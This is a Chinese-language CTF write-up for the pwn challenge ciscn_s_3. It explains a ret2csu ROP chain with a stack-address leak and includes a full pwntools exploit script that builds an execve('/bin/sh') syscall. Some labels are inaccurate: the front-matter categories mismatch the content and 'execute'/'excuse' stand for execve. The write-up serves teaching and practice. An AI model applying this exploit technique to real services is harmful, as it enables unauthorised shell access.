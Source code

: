 ```yaml
---
title: '{文件名}'
date: 2024-11-11 13:00:00 +0800
categories: [uaf,malloc_hook,unsortbin_leaklibc]
tags: [ctf,pwn]
---
```

- ret2csu

  > 在`64`位程序中可以通过栈溢出控制`__lib_csu_init`中的参数来控制`rdx,rsi,edi`寄存器

- `64`位函数传入的参数依次存在寄存器`rdi,rsi,rdx (顺序从左到右)`,返回值存在`rax`中

- `syscall`函数会根据`rax`的值来调用函数,例如当`rax==0x3B`时,运行`execute`
- 栈地址泄露
- ROPgadgets

<img src="../assets/img/old_imgs/image-20231227185527471.png" alt="image-20231227185527471" style="zoom:80%;" />

<img src="../assets/img/old_imgs/image-20231227185621950.png" alt="image-20231227185621950" style="zoom: 67%;" />

1.`read`中存在溢出

2.泄露`buf`的地址写入`/bin/sh`

3.通过ROPgadgets得到控制寄存器的地址

4.最后通过`ret2csu`和`syscall`构造出`excuse('/bin/sh',0,0)`得到`shell`

*ret2csu*思路:

1. 首先跳转到`pop rbx`的位置`(csu_end)`,控制一系列寄存器,根据代码可知`r13 -> rdx ; r14 -> rsi ; r15 -> edi`

2. 再`retn`到`mov rdx,r13`的位置`(csu_font)`,这里要注意存在`call`函数,同时,要满足`cmp rbx,rbp`即`$rbx-$rbp==0`才继续运行,为了满足条件我们需要在第$1$步中提前布局
3. 运行`loc_400596`的代码,`add rsp,8`抬高了栈顶,所以我们填充栈的时候也要注意多填充`8`个位置,接着是常规的填充,根据需要,不需要则全部填充为`0xdeadbeef`直到`retn`回到程序流

<img src="../assets/img/old_imgs/image-20231227185656124.png" alt="image-20231227185656124" style="zoom:67%;" />

泄露栈地址后第二次栈布局如下

|       | rbp  |            |       |                    |                                |
| :---: | :--: | :--------: | :---: | :----------------: | :----------------------------: |
| 0x10  |      |  padding   |       |                    | 开头为b"/bin/sh\x00"=>buf_addr |
| 0x18  |      |            |  ret  | 0x000000000040059A |            csu_end             |
| 0x20  |      |     0      |  rbx  |                    |                                |
| 0x28  |      |     1      |  rbp  |                    |                                |
| 0x30  |      |            |  r12  |    bufaddr+0x10    |           call的参数           |
| 0x38  |      |     0      |  r13  |                    |             => rdx             |
| 0x40  |      |     0      |  r14  |                    |             => rsi             |
| 0x48  |      |     0      |  r15  |                    |             => edi             |
| 0x50  |      |            | retn  | 0x0000000000400580 |           2csu_font            |
| 0x58  |      | 0xdeadbeef | rsp,8 |                    |                                |
| 0x60  | rsp  | 0xdeadbeef |  rbx  |                    |                                |
| 0x68  |      | 0xdeadbeef |  rbp  |                    |                                |
| 0x70  |      | 0xdeadbeef |  r12  |                    |                                |
| 0x78  |      | 0xdeadbeef |  r13  |                    |                                |
| 0x80  |      | 0xdeadbeef |  r14  |                    |                                |
| 0x88  |      | 0xdeadbeef |  r15  |                    |                                |
| 0x90  |      |            |  ret  | 0x00000000004004E2 |           rax = 0x3B           |
| 0x98  |      |            | retn  | 0x00000000004005a3 |          pop_rdi_addr          |
| 0x100 |      |            |  ret  | 0x0000000000400517 |            syscall             |

```python
from pwn import *
context.log_level = 'debug'
io = process('./ciscn_s_3')
#io = gdb.debug('./ciscn_s_3','break *0x00000000004004E2')
elf = ELF('./ciscn_s_3')

padding = 0x10
payload1 = b'A'*padding+p64(elf.sym['vuln'])
io.send(payload1)
io.recv(0x20)   #这个偏移主要是gdb看出来的
ebp_addr = u64(io.recv(8))
#print('ebp_addr',hex(ebp_addr))
buf_addr = ebp_addr-0x148   #buu改成-0x118
#print('buf_addr ->',hex(buf_addr))
payload2 =b'/bin/sh\x00'
payload2 = payload2.ljust(0x10,b'\x00')
payload2 += p64(0x000000000040059A)+p64(0)+p64(1)+p64(buf_addr+0x10)+p64(0)+p64(0)+p64(0)+p64(0x0000000000400580)
payload2 += p64(0xdeadbeef)*5+p64(0x00000000004004E2)+p64(0x00000000004005a3)+p64(buf_addr)+p64(0x0000000000400517)
io.send(payload2)
io.interactive()
```

主要一步步动态调试,理解程序控制流.